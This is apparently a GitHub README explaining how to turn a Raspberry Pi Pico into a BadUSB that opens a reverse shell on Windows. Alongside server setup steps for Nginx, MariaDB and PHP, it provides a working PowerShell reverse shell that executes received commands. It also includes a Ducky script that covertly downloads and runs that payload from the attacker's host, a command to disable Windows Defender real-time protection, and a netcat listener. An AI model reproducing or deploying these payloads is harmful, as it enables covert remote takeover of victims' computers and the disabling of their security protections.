 # ReverseShellWithRpiPico
This repository is a personal project to explain how to use a Raspberry Pi Pico as a BadUSB to do a reverse shell attack on Windows.

For a reverse shell attack we need a victim client and an attacking server. The client will initiate a remote connection to the server and the server will accept it. So, its the victime client that initiate a connection with the attaccking server, then the roles are opposite.

In my case, I used a Raspberry Pi Pico to make the victim client connect to the attacking server.

## Server configuration
You can have a web server hosted on Aruba or Linode or any online host. In my case i used a Raspberry Pi 4 to host my web server. In case you want to use this solution, below you can find the guide for configuring the server on the following the server on rpi4 with Nginx (you can use apache or some other server). 

### Install Nginx
The first step is to install a OS (like Raspberry Pi OS or Kali linux ARM) on your Raspberry Pi 4. 
After the OS installation you need to open a new terminal window and type the following commands:

    sudo apt update
    sudo apt install nginx
### Install MySQL
In my case i used MariaDB. So, to install MariaDB type the following command in a terminal window:

    sudo apt install mariadb-server
Now we need to set up the root user. First thing, type the following command:

    sudo mysql_secure_installation
Now you just have to follow the steps that will be required to disable the default terminal access to the root user and to set a new root password.
### Install PHP
To install PHP you need just to type a couple line of command and guess what, you find them below ;). 
    
    sudo apt-get install php-fpm php-mysql
    sudo nano /etc/php5/fpm/php.ini
With the last command you can edit the `php.ini` file. Find the line that says `cgi.fix_pathinfo=1` and change it to `cgi.fix_pathinfo=0`. Now, just restart PHP:

    sudo systemctl restart php-fpm
### Configure Nginx to use PHP
To configure Nginx to use PHP you can edit the following file:

    sudo nano /etc/nginx/sites-available/default
The file will look like the follow

    server {
        listen 80 default_server;
        listen [::]:80 default_server;

        root /var/www/html;

        index index.php index.html index.htm index.nginx-debian.html;

        server_name [your public IP];

        location / {
            try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
            include snippets/fastcgi-php.conf;
            fastcgi_pass unix:/var/run/php5-fpm.sock;
        }

        location ~ /\.ht {
            deny all;
        }
    }
Replace `[your public IP]` with your public IP. 

Now, just type this couple line to check the Nginx syntax and to restart it:

    sudo nginx -t
    sudo systemctl reload nginx
### Set up port forwarding
You need to access your router's admin interface and to find the port setting. After this, you can setup port forwarding like this:

    Service Port: 80
    Internal Port: 80
    IP Address: [your Pi's IP address]
    Protocol: TCP
    Common Service Port: HTTP
## BadUSB Setup
As mentioned previously, i used a Raspberry Pi Pico as a BadUSB. To do this we need to setup the rpi pico as a badusb and you can follow this [link](https://github.com/dbisu/pico-ducky).

## BadUSB script
Once the Raspberry Pi Pico is configured as BadUSB, we need to write the script that will allow us to establish the remote connection from the client to the attacking server. 
To do this, in my case, I uploaded the file `payload.ps1`. 

    $sm=(New-Object Net.Sockets.TCPClient('your_domain',81)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
In this file you need to change "your_domain" with your real domain or IP address. If you want you can replace the port 81 with another port. 

Now create a file named `payload.dd` and fill it with the following lines of code:

    DELAY 3000
    GUI r
    DELAY 1000
    STRING powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://your_domain/payload.ps1');"
    DELAY 1000
    ENTER
    DELAY 1000
    STRING exit
    DELAY 1000
Replace  "your_domain" with your effective domain, where you put the file `payload.ps1`. 
You need to turn off the Windows real time protection for this to work. You can do this by adding the following line of code to your script:

    powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
Now you need to put the server in listening of any connection with a Netcat tool. Usually, Netcat is alrady installed in many of Linux distro. 

So, to put the server in listening you need to insert the line below in a terminal window:

    nc -lp 81
If you used another port in the `payload.ps1` file you need to chenge the port in this command. 

Now, we can connect the Raspberry Pi Pico to the client and we just need to wait a few second and check the connection on the server. 